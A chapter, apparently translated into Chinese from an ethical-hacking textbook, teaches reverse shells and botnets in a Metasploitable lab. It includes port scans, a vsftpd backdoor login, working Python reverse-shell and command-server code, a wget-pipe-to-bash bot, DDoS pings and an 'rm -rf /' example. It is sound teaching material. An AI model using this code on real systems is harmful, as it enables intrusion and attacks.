







## 第五章：**构建 TCP 反向连接和僵尸网络**

*原因隐藏，结果显而易见。*

–欧维德


假设你截获了一个受害者的流量。假设你发现受害者在某家公司工作。你决定入侵公司的服务器并上传一个名为*反向连接*的程序，该程序允许你远程执行该服务器上的命令。反向连接使你即使在公司修复了让你第一次入侵的漏洞后，依然能保持对服务器的访问。本章将解释攻击者是如何做到这一点的，并展示你如何亲自执行这一攻击。我将从解释套接字编程的基础知识开始。接着，你将应用这些基础知识来编写自己的反向连接。最后，我将通过分析一个现实世界的僵尸网络案例，该网络感染了超过 30 万台计算机，并展示你如何编写自己的僵尸网络。

### 套接字和进程通信

在你设计自己的反向连接之前，必须先了解套接字编程的基础知识。*套接字*是一个 API，允许程序通过网络进行通信。套接字有两种类型：TCP 和 UDP。如第二章中提到的，TCP 套接字使用 TCP 协议，确保所有通过网络发送的数据都能可靠地传输。相反，UDP 套接字则以速度为优先，牺牲可靠性。你会经常看到 UDP 套接字用于音频或视频通话应用程序中，因为这些应用程序要求数据包实时传输。在本章中，你将使用 TCP 套接字。

#### *TCP 三次握手*

互联网路由器被设计成每秒处理数百万个数据包。然而，在高峰时段，路由器可能会被压垮并删除数据包，这只是数据包丢失的众多方式之一。那么，如何在一个会删除数据包的网络中可靠地传输数据包呢？TCP 通过跟踪所有传输的数据包来实现这一点。每个数据包都会被分配一个*序列号*，表示它在传输数据包中的位置。如果某个序列号丢失，TCP 就知道该数据包丢失并会重新传输它。图 4-1 展示了如何将一个用比特表示的图像转换成带有序列号的 TCP 数据包。



*图 4-1：文件如何被转换为带有序列号的数据包*

图像、文本文件、程序以及你计算机中存储的所有其他数据都以二进制数据的形式表示。在文件可以传输之前，它必须被封装成一个数据包。然而，TCP 数据包的最大大小为 64KB，因此大于此大小的文件会被拆分并放入多个 TCP 数据包中。每个数据包都会分配一个*序列号*，以便能够重新组装文件。序列号是连续的，这使得接收方能够确定数据包的正确顺序；然而，每台计算机都从一个随机数开始序列，以防止黑客预测序列号。

在两台机器能够传输数据包之前，它们必须都接收并确认对方的起始序列号，以便能够跟踪丢失的数据包。这个交换过程称为*TCP 三次握手*。图 4-2 展示了握手中消息是如何交换的。如果一台机器回应了握手请求，就意味着服务器愿意在该端口进行通信。



*图 4-2：TCP 三次握手如何用于建立通信通道*

客户端通过发送一个*SYN 数据包*来发起 TCP 连接，该数据包是一个 SYN 标志设置为 true 的 TCP 数据包。这个 SYN 数据包还包含客户端的起始序列号。例如，发送一个 SYN(3)数据包就像是在说：“你好，我的起始序列号是 3，您的是多少？”当服务器收到 SYN 数据包后，它记录下客户端的序列号，并通过发送一个 SYN-ACK 数据包进行响应，SYN-ACK 数据包的 SYN 和 ACK 标志都被设置为 true。这个 SYN-ACK 数据包确认已接收到客户端的序列号，并发送服务器的序列号。例如，SYN(0) ACK(4)数据包相当于在说：“我的起始序列号是 0，我希望你接下来发送数据包 4。”但是，直到服务器收到一个 ACK 数据包，通知它客户端已收到其序列号并期待序列中的下一个值，连接才会建立。

当系统完成数据包交换后，它们通过交换 FIN 和 ACK 数据包来关闭连接。图 4-3 展示了这种 FIN-ACK 交换。



*图 4-3：如何使用 FIN-ACK 数据包关闭通道*

TCP 允许*全双工*通信，这意味着发送方和接收方可以同时传输数据。相反，在*半双工*通信中，只有一方可以同时传输数据。对讲机是半双工的；一个人必须放弃通道，另一个人才能说话。相比之下，手机是全双工的，因为双方可以同时交谈。由于 TCP 连接是全双工的，因此两台机器必须都发送消息来关闭连接。一个机器发送 FIN 数据包后，必须等待另一台机器也发送 FIN 数据包后才能关闭连接。

#### *一个 TCP 反向 Shell*

TCP 套接字是网络应用程序的基本构建模块。例如，像安全外壳（SSH）这样的工具使用套接字连接到远程服务器。一旦黑客攻破了一台机器，他们可以安装一个 SSH 服务器，并使用 SSH 客户端控制该机器。然而，许多组织的路由器上运行着防火墙并实现了网络地址转换（NAT），这是我们将在第八章中讨论的一个特性。这些功能阻止了网络外部的机器发起连接到网络内部的服务器。

然而，许多防火墙允许相反的情况：网络内的计算机仍然可以发起连接到网络外的计算机。这使得员工可以访问 Google，同时防止外部攻击者使用 SSH 客户端连接到组织的服务器。图 4-4 显示了这一概念的概述。



*图 4-4：防火墙和 NAT 如何阻止传入连接，但不阻止传出连接*

为了绕过防火墙和 NAT，黑客可以在受感染的机器上安装一个名为反向 shell 的程序，该程序将从网络内部发起连接到网络外部的攻击者计算机。反向 shell 连接到黑客的机器后，黑客可以向反向 shell 发送命令，然后它将在组织的服务器上执行这些命令。许多 shell 还会通过在端口 53 上进行通信并将数据封装在 DNS 数据包中来掩盖它们的流量。

反向 shell 包含两个部分：一个连接到攻击者计算机的组件，以及一个允许攻击者在受害者机器上执行终端命令的 shell 组件。图 4-5 显示了 Metasploitable 服务器上的反向 shell 如何与攻击者的 Kali Linux 机器上的 TCP 服务器套接字进行通信。



*图 4-5：TCP 客户端和服务器如何通过网络进行通信*

当运行托管在 Metasploitable 机器上的客户端时，它会向操作系统请求一个新的套接字。一旦操作系统创建了套接字，它就会分配一个端口号，并将该套接字与反向 shell 连接。在 Kali Linux 机器上也会发生类似的过程，它运行一个 TCP 服务器，并向操作系统请求一个特定的端口号。端口号和 IP 地址的独特组合将 TCP 服务器标识为其他机器上的 TCP 客户端。当你开发自己的服务器时，选择较大的端口号来运行它们是一个好主意，因为设备上的其他应用程序可能已经在使用较低的端口号。端口字段长度为 16 位，因此最大端口号是 2¹⁶ – 1，即 65,535。

**注意**

*如果你对每个端口的用途感到好奇，互联网工程任务组（IETF）维护着服务名称和传输协议端口号注册表，它将端口号与其相关联的服务进行映射：* [`www.iana.org/assignments/service-names-port-numbers/service-names-port-numbers.xhtml`](https://www.iana.org/assignments/service-names-port-numbers/service-names-port-numbers.xhtml)。

这种模型，其中客户端连接并与专用服务器进行通信，被称为*客户端-服务器模型*。你可以在整个互联网中找到这种客户端-服务器模型。例如，你的网页浏览器是一个 TCP 客户端，它与运行在 172.217.12.238 上的 Google TCP 网页服务器（端口 80）进行通信。

客户端-服务器模型的替代方案是*对等网络（P2P）模型*。在 P2P 模型中，客户端彼此直接交换信息。自托管的视频聊天和 BitTorrent 都是 P2P 模型的例子。我们将使用客户端-服务器模型来开发我们的反向 Shell；不过，也可以开发该工具的 P2P 版本。

### 访问受害者机器

在第二章中，你发现了 Metasploitable 服务器的 IP 地址。现在，你需要找到进入服务器的方法。一旦我们访问了服务器，就可以将反向 Shell 上传到其中。

记住，进程通过开放端口在网络上进行通信，因此如果攻击者发现了某个端口，他们可以向该端口上托管的进程发送恶意数据包，并可能危及该机器的安全。

#### *扫描开放端口*

`nmap`等工具允许黑客扫描系统以发现开放端口。让我们从扫描 Metasploitable 服务器开始。幸运的是，`nmap`在 Kali Linux 上默认安装。运行以下命令开始扫描：

```
kali@kali:~$ nmap -sV 192.168.1.101
Starting Nmap ( https://nmap.org )
Nmap scan report for 192.168.1.101
Host is up (0.00064s latency).
Not shown: 977 closed ports
PORT     STATE SERVICE     VERSION

21/tcp   open  ftp         vsftpd 2.3.4

22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp   open  telnet      Linux telnetd

25/tcp   open  smtp        Postfix smtpd

53/tcp   open  domain      ISC BIND 9.4.2

80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)

... More Ports...
```

`-sV`标志启用版本检测，这告诉`nmap`检测每个端口上运行的应用程序的版本。接下来，指定要扫描的 IP 地址（你可能会看到与此不同的地址）。该命令应返回开放端口、在这些端口上运行的应用程序以及这些应用程序的版本。

`nmap`扫描主机端口的方式之一是尝试与每个端口建立连接。然而，这种方式较慢且经常会触发警报。因此，`nmap`默认执行*SYN 扫描*。SYN 扫描不会建立完整的连接，而是发送 TCP SYN 数据包，监听 SYNACK 响应，并在收到响应时标记端口为开放。然而，`nmap`并未通过发送最终的 ACK 数据包来完成握手。你可以通过以下命令显式地运行 SYN 扫描（`-sS`标志表示 SYN 扫描）：

```
kali@kali:~$ nmap -sS <Metasploitable IP address>
```

攻击者有时也使用 TCP-FIN 数据包绕过防火墙保护。例如，系统管理员可以指定规则来控制哪些数据包可以进出系统。他们可能只允许 22 端口的出站数据包，从而阻止该端口的任何入站数据包。这意味着所有的 SYN 数据包都会被阻塞。黑客可以改用 FIN 数据包探测该端口，因为无论是入站还是出站连接都使用这些数据包。使用以下命令对 Metasploitable 服务器执行 FIN 扫描：

```
kali@kali:~$ nmap -sF <Metasploitable IP address>
```

除了 FIN 扫描，`nmap`还允许你进行*圣诞树扫描*，这是一种使用奇特数据包配置绕过检测并获取系统信息的扫描方式。圣诞树扫描会在 TCP 数据包中设置 FIN、PSH 和 URG 标志。PSH 和 URG 标志很少使用，而且许多系统的 TCP/IP 标准实现不完整或错误，无法统一处理这些标志。通过检查系统如何响应这些标志，攻击者可以推测出 TCP/IP 的实现方式，并进一步了解系统的情况。你可以使用以下命令运行圣诞树扫描：

```
kali@kali:~$ nmap -sX <Metasploitable IP address>
```

**注意**

*之所以称其为圣诞树扫描，是因为当你在 Wireshark 中查看数据包的位时，它们看起来像圣诞树上的灯泡，如图 4-6 所示。*



*图 4-6：圣诞树扫描*

#### *利用漏洞服务*

一旦你知道了正在运行的应用程序的版本，就可以在国家漏洞数据库中搜索可能为你提供进入服务器的漏洞，网址是*[`nvd.nist.gov/`](https://nvd.nist.gov/)*。在第八章中，你将学习如何自动化这一发现过程。

如果系统管理员定期自行进行扫描并保持系统更新，攻击者很难利用已知的漏洞获得访问权限。在这种情况下，攻击者需要发现一个未知的漏洞。这些被称为*零日*漏洞，因为受害者并不知道这些漏洞，因此没有时间修复它们。这些漏洞可能会带来利润。例如，2019 年，一种 Android 和 iOS 的零点击漏洞分别以超过二百万美元的价格出售给零日漏洞公司 Zerodium。许多零日漏洞是通过一种叫做*模糊测试*的技术发现的，我们将在第九章中探讨这一点。

现在，你将使用第一章中介绍的 vsftp 后门来进入 Metasploitable 服务器。从`nmap`扫描结果可以看到该系统运行的是 vsftp 2.3.4 版本，这是一个具有后门的版本，允许攻击者访问系统。让我们打开后门。在 Kali Linux 中打开一个新的终端并运行以下命令：

```
kali@kali:~$ nc <Metasploitable IP address> 21
user Hacker:)
pass invalid
```

当后门被打开时，它会在端口 6200 上创建一个 shell。这个端口号是预先编程到后门中的。如果你成功解锁了后门，终端看起来会挂起。保持此终端打开，再启动一个新终端。在新终端中，使用以下命令连接到在端口 6200 上运行的 shell，通过后门进入：

```
kali@kali:~$ nc <Metasploitable IP address> 6200
```

现在你已经进入了系统，接下来在此终端中执行的命令将在你刚刚入侵的服务器上执行。你将稍后使用这个终端来下载你的反向 shell，所以请保持它打开。这个 shell 将使你在系统管理员发现后门漏洞并修补 vsftp 后，仍然能够访问该机器。

### 编写反向 Shell 客户端

现在你已经对反向 Shell 有了概念性的理解，让我们来看看如何实现它。打开 Kali Linux 并在桌面上创建一个名为“shell”的文件夹。现在，我们将在这个文件夹中放置客户端和服务器程序。

我们将在 Kali Linux 中的默认文本编辑器 Mousepad 中编写程序，但你可以使用任何你喜欢的编辑器。运行以下命令打开 Mousepad 编辑器：

```
kali@kali:~$ mousepad &
```

以下程序从黑客的 TCP 服务器接收命令并在受害者的机器上执行，然后将结果发送回黑客。将以下反向 Shell 代码复制到编辑器中，并将文件保存为 *reverseShell.py*，保存在你刚刚创建的 shell 文件夹中。

```
   import sys

   from subprocess import Popen, PIPE

   from socket import *
➊ serverName = sys.argv[1]

   serverPort = 8000

   #Create IPv4(AF_INET), TCPSocket(Sock_Stream)
➋ clientSocket = socket(AF_INET, SOCK_STREAM)
➌ clientSocket.connect((serverName, serverPort))

   clientSocket.send('Bot reporting for duty'.encode()) ➍ 

   command = clientSocket.recv(4064).decode() ➎ 

   while command != "exit":

     ➏ proc = Popen(command.split(" "), stdout=PIPE, stderr=PIPE)

     ➐ result, err = proc.communicate()

        clientSocket.send(result)

        command = (clientSocket.recv(4064)).decode()

   clientSocket.close()
```

我们从运行程序时提供的第一个命令行参数中读取攻击者的 IP 地址 ➊。然后，我们创建一个新的客户端套接字 ➋。`AF_INET` 参数告诉套接字库创建一个 `IPV4` 套接字，`SOCK_STREAM` 参数则告诉套接字库将其创建为一个 TCP 套接字。如果你想创建一个 `IPV6` UDP 套接字，你需要提供 `AF_INET6` 和 `SOCK_DGRAM` 参数。

在你创建了套接字之后，你可以通过提供一个包含套接字的 IP 地址和端口号 ➌ 的 *元组* 来连接到黑客机器上的套接字。元组是不可修改的列表，我们使用圆括号 () 来声明，而不是方括号 []。在这种情况下，元组包含我们在程序中之前定义的变量，因此它应该像这样：(`172.217.12.238, 8000`)。

客户端应通知攻击者的机器，表明它已准备好接受命令。Python 的 `socket` 库设计用于发送二进制数据，因此如果你想发送字符串 `'Bot reporting for duty'`，必须先通过调用 `.encode()` ➔ 将其编码为二进制。类似地，从套接字接收到的所有信息都是二进制的，因此如果你想以字符串形式查看它，程序必须对其进行解码 ➎。值 `4064` 指定了要读取的最大字节数。

客户端将继续接受并执行命令，直到黑客发送 `exit` 命令。`Popen` 方法 ➏ 创建当前进程的副本或 *分叉*，称为 *子进程*。然后，它将命令传递给子进程，子进程在客户端上执行该命令。一旦子进程执行完命令，`proc.communicate()` 函数 ➐ 会读取结果，并将其发送到黑客的机器。

### 编写一个监听客户端连接的 TCP 服务器

现在，你将编写在黑客 Kali Linux 机器上运行的服务器。这个服务器将负责两个关键功能：1）接受来自客户端的连接，2）发送和接收命令。你会经常听到这个服务器被称为 *命令与控制（CNC）* 服务器。在文本编辑器中打开一个新窗口，输入以下代码，然后将文件保存为 *shellServer.py*，保存在同一个 shell 文件夹中：

```
   from socket import *

   serverPort = 8000
➊ serverSocket = socket(AF_INET, SOCK_STREAM)
➋ serverSocket.setsockopt(SOL_SOCKET, SO_REUSEADDR, 1)
➌ serverSocket.bind(('', serverPort))
➍ serverSocket.listen(1)

   print("Attacker box listening and awaiting instructions")
➎ connectionSocket, addr = serverSocket.accept()

   print("Thanks for connecting to me "

             +str(addr))

   message = connectionSocket.recv(1024)

   print(message)

   command =""

   while command != "exit":

       command = input("Please enter a command: ")

       connectionSocket.send(command.encode())

       message = connectionSocket.recv(1024).decode()

       print(message)

➏ connectionSocket.shutdown(SHUT_RDWR)

   connectionSocket.close()
```

首先，我们创建一个 IPv4 TCP 套接字 ➊。为了确保套接字能够有效通信，IP 版本和协议必须匹配，因此我们使用与客户端相同的协议。通过允许操作系统重用最近使用过的套接字，我们使套接字更加健壮 ➋。创建套接字后，我们可以将其绑定到机器上的端口。`bind()`函数接受两个参数 ➌：机器的 IP 地址和端口。如果 IP 地址参数为空，函数将使用分配给机器的默认 IP 地址。

现在，套接字已绑定到端口，它可以开始监听连接 ➍。在这里，您可以指定要支持的连接数量。由于只有一个客户端，支持单个连接是可以的。一旦客户端连接到我们的套接字，我们将接受连接并返回一个连接对象 ➎。我们将使用这个对象来发送和接收命令。一旦我们完成发送命令，我们将为快速离开配置连接 ➏并关闭它。

通过运行以下命令启动服务器：

```
kali@kali:~$ python3 ~/Desktop/shell/shellServer.py
```

服务器现在正在等待客户端连接，您可以开始将客户端（*reverseShell.py*）加载到 Metasploitable 服务器上的过程。

### 将反向 Shell 加载到 Metasploitable 服务器上

现在您已经用 Python 开发了反向 Shell 和黑客服务器，将 Python 反向 Shell 加载到 Metasploitable 服务器上。我们将使用您编写的反向 Shell 来保持访问权限，即使 vsftp 中的漏洞已被修补。由于攻击者没有服务器的用户名或密码，因此无法登录到服务器，您必须使用 vsftp 后门提供的 Shell 从 Kali Linux 机器将您的反向 Shell 上传到 Metasploitable 服务器。

导航到 Kali Linux 机器上包含*reverseShell.py*和*shellServer.py*文件的目录：

```
kali@kali:~$ cd ~/Desktop/shell
```

接下来，启动一个本地服务器，将*reverseShell.py*文件提供给 Metasploitable 服务器：

```
kali@kali:~/Desktop/shell$ python3 -m http.server 8080
```

`-m`表示运行的模块。在这里，您正在运行`http.server`模块，它允许您启动一个 Web 服务器。

打开一个终端窗口，并连接到端口 6200 上的 vsftp 后门 Shell，如下代码所示。使用该 Shell 在 Metasploitable 服务器上创建一个新目录，并从黑客的服务器下载*reverseShell.py*文件到该目录中。为此，使用以下命令：

```
kali@kali:~$ nc 192.168.1.101 6200
mkdir shell
cd shell
wget <Kali IP>:8080/reverseShell.py

--13:38:01--  http://192.168.1.103:8080/reverseShell.py

            => `reverseShell.py'
Connecting to 192.168.1.103:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 864 [text/plain]

     0K                                                       100%  161.63 MB/s

13:38:01 (161.63 MB/s) - `reverseShell.py' saved [864/864]
```

通过在当前 Netcat 会话中输入以下命令，启动 Metasploitable 机器上的反向 Shell：

```
python reverseShell.py <Kali IP address> &
```

您的反向 Shell 现在将尝试连接到您的服务器。切换到 Kali Linux 机器并尝试执行`whoami`命令：

```
kali@kali:python3 ~/Desktop/shell/shellServer.py
Attacker box listening and awaiting instructions
Thanks for connecting to me ('192.168.1.101', 50602)
Bot reporting for duty
Please enter a command: whoami
root

Please enter a command: pwd

/shell

Please enter a command: ls
reverseShell.py

Please enter a command:
```

这里，`whoami`命令打印当前用户。如果输出显示`root`，则说明你已获得 Metasploitable 服务器的 root 权限。前面的输出还展示了一些你可以在 Metasploitable 机器上执行的命令示例。`pwd`命令打印工作目录，`ls`命令列出目录中的文件。在这种情况下，你应该能够看到你下载的 *reverseShell.py* 文件。

### 僵尸网络

到目前为止，你只建立了一个控制单个客户端的服务器僵尸网络。然而，你可以扩展服务器，使其能够同时控制多个客户端。在像这样的*僵尸网络*中，多个客户端机器连接到单个 CNC 服务器。这些僵尸网络可以做很多事情，包括通过用大量流量压垮 Web 服务器来执行*分布式拒绝服务（DDoS）*攻击，导致服务器暂时无法使用。

2016 年 10 月 21 日，Dyn DNS 服务遭遇了一个使用 Mirai 僵尸网络发起的 DDOS 攻击。这个僵尸网络阻止用户访问像 Airbnb、Amazon 和 Netflix 这样的网站。在浏览器访问网站之前，它首先通过与 DNS 服务器通信获取网站的 IP 地址。如果一个僵尸网络压垮了 DNS 服务器，它将阻止用户访问该服务器上托管的域名。

Mirai 僵尸网络由一系列物联网（IoT）设备组成，如摄像头和家庭路由器。Mirai 并没有使用后门，而是通过设备的默认用户名和密码直接登录设备。为了实现这一点，Mirai 使用了 SYN 扫描来搜索端口 23 开放的设备。当它找到设备时，Mirai 僵尸网络会尝试使用一组默认的凭据进行连接。如果登录成功，它会使用`wget`或`tftp`命令将僵尸客户端代码加载到机器上。如果这两个命令都不可用，它会通过自定义加载器加载自己的`wget`版本。一旦设备被攻破，它会将设备的 IP 地址、用户名和密码发送回 CNC 服务器。Mirai 僵尸网络已经攻破了超过 35 万个设备。

由于 Mirai 僵尸网络使用了专用的 CNC 服务器，安全研究人员可以检查流量并确定该服务器的 IP 地址。研究人员联系了该服务器的 ISP，并要求禁用该 IP 地址。然而，僵尸网络代码并没有为服务器指定固定的 IP 地址。相反，僵尸网络通过解析 URL 来确定 IP 地址。这意味着，如果一个 CNC 服务器的 IP 地址被禁用，僵尸网络可以通过更新 DNS 中 URL 与 IP 地址之间的映射来分配新的 CNC 服务器，从而使得将僵尸网络下线变得困难。Mirai 僵尸网络的代码可以在 GitHub 上找到，链接是 *[`github.com/jgamblin/Mirai-Source-Code/`](https://github.com/jgamblin/Mirai-Source-Code/)*。

图 4-7 展示了两种僵尸网络架构。第一种是客户端-服务器架构，其中一个服务器控制多个客户端。这种架构的一个缺点是，如果服务器被禁用，整个僵尸网络就会瘫痪。第二种是 P2P 架构，在这种架构中，网络中的任何一个 bot 都可以被指定为服务器，这样就消除了单点故障。Mirai 僵尸网络采用了客户端-服务器模型，但通过让 bot 解析域名来确定 CNC 服务器的 IP 地址，缓解了该架构的单点故障问题。



*图 4-7：两种僵尸网络架构：客户端-服务器和 P2P*

Mirai 很复杂，但编写一个僵尸网络并不一定复杂。让我们从创建一个包含你希望 bot 执行的命令的文件开始：

```
kali@kali:~$ touch commands.sh
kali@kali:~$ echo "ping 172.217.9.206" > commands.sh
```

`touch` 命令创建一个名为 *commands.sh* 的新文件，`echo` 命令将 `"ping 172.217.9.206"` 写入该文件。`ping` 命令通过发送数据包并等待响应来检查机器是否在线。将这些命令组合在一起，这个脚本将向 IP 地址 172.217.9.206 发送 ping 数据包。多个机器重复执行这个操作将导致 DDoS 攻击。

创建了 shell 脚本之后，使用以下命令创建一个一行的僵尸网络服务器：

```
kali@kali:~$ python3 -m http.server 8080
```

现在，你可以编写一个简单的 bot 客户端，下载并执行脚本。记住，bot 会执行 *commands.sh* 文件中的所有命令，所以要小心你在文件中包含的内容。例如，如果 `ping` 命令被替换为 `rm -rf /`，那么 bot 会删除机器上的所有数据。接下来，运行以下命令：

```
msfadmin@metasploitable:~$ wget -0- <IP address of server bot> :8080\commands.sh | bash

```

`-0-` 标志输出下载文件的内容，然后通过 `|` 运算符将内容“管道”到 Bash shell 中执行。*command.sh* 脚本指示客户端 ping Google 的 IP 地址（172.217.9.206）。

如果一个服务器指示足够多的客户端同时执行这个操作，它就能发起 DDoS 攻击。黑客们通常通过租赁他们的僵尸网络军队来从中获利，其他黑客也用它们来实现这一目的。

### 练习

通过这些练习，扩展你对僵尸网络、反向 shell 和扫描的理解。在第一个练习中，你将实现一个可以同时处理多个 bot 的 bot 服务器。在第二个练习中，你将使用 Scapy 库实现 SYN 扫描。在最后一个练习中，你将实现一个 Python 程序，帮助你检测 XMas 扫描。

#### *一个多客户端僵尸网络服务器*

在这一章中，你写了一个只能控制单个机器人的服务器。现在让我们扩展你的实现，使其可以同时控制多个机器人。机器人将不再发送单独的命令，而是会收到相同的命令。在 CNC 服务器接收到响应后，它应该打印出机器人的 IP 地址和执行命令的结果。我建议你使用`socketserver`库来管理多个 TCP 连接。

```
   import socketserver

➊ class BotHandler(socketserver.BaseRequestHandler):

     ➋ def handle(self):

         ➌ self.data = self.request.recv(1024).strip()

            print("Bot with IP {}  sent:".format(self.client_address[0]))

            print(self.data)

         ➍ self.request.sendall(self.data.upper())

   if __name__ == "__main__":

        HOST, PORT = "", 8000

     ➎ tcpServer =  socketserver.TCPServer((HOST, PORT), BotHandler)

        try:

         ➏ tcpServer.serve_forever()

        except:

            print("There was an error")
```

我们创建了一个新的 TCP 服务器 ➎，每当客户端连接到服务器时，它会创建一个新的内部线程，并实例化一个新的`BotHandler`类。每个连接都与其自己的`BotHandler`类实例相关联 ➊。每当`BotHandler`接收到来自客户端的数据时，`handle()`方法 ➋ 会被调用。实例变量 ➌ 包含有关请求的信息。例如，`self.request.recv(1024)`包含请求中的数据，而`self.client_address`包含一个元组，其中包含客户端的 IP 地址和端口号。`self.request.sendall()`方法 ➍ 会将所有传递给它的信息发送到客户端。这个示例将所有接收到的数据转换为大写字母。服务器将继续运行，直到被终止（CTRL-C） ➏。

当前，服务器仅将客户端的消息转换为大写字母并发送回去。扩展你的服务器，使其从文件中读取并将文件中的命令发送给客户端。

#### *SYN 扫描*

编写一个 Python 程序，接受一个 IP 地址作为命令行参数，并对该地址的所有端口进行 SYN 扫描。提示：使用我们在第二章中讨论的 Scapy 库。Scapy 库使用`/`运算符来组合层之间的信息。例如，这行代码创建了一个 IP 数据包，并用 TCP 中的值覆盖其默认字段：

```
syn_packet = IP(dst="192.168.1.101") / TCP( dport=443, flags='S')
```

这个新的 SYN 数据包的目标 IP 地址设置为`192.168.1.101`，并包含一个带有 SYN 标志`S`的数据包。此外，它的目标端口值设置为`443`。

这里是一些骨架代码，帮助你入门：

```
   from scapy.all import IP, ICMP,TCP, sr1

   import sys

➊ def icmp_probe(ip):

       icmp_packet = IP(dst=ip)/ICMP()

       resp_packet = sr1(icmp_packet, timeout=10)

       return resp_packet != None

➋ def syn_scan(ip, port):

       pass

   if __name__ == "__main__":

       ip = sys.argv[1]

       port = sys.argv[2]

       if icmp_probe(ip):

           syn_ack_packet = syn_scan(ip, port)

           syn_ack_packet.show()

       else:

           print("ICMP Probe Failed")
```

我们发出一个 ICMP 数据包来检查主机是否在线 ➊。我们在第三章中讨论的程序`traceroute`也使用这种类型的数据包。请注意，Scapy 的`sr()`函数用于发送和接收数据包，而`sr1()`函数只发送和接收一个数据包。如果主机可用，通过发送一个 SYN 数据包并检查响应来启动 SYN 扫描 ➋。如果没有收到响应，该端口可能是关闭的。然而，如果收到响应，请检查响应是否包含一个设置了 SYN 和 ACK 标志的 TCP 数据包。如果只有 SYN 标志被设置，则 TCP 数据包的标志值将设置为`\0x02`。如果只有 ACK 标志被设置，值将为`\x10`。如果两个标志都被设置，标志值将为`\0x12`。如果响应数据包包含 TCP 数据包，你可以使用以下代码片段检查数据包的标志：`resp_packet.getlayer('TCP').flags == 0x12`。

#### *检测圣诞扫描*

编写一个使用 Scapy 库的程序（见第二章），用于检测 XMas 扫描。提示：检查设置了 FIN、PSH 和 URG 标志的数据包。
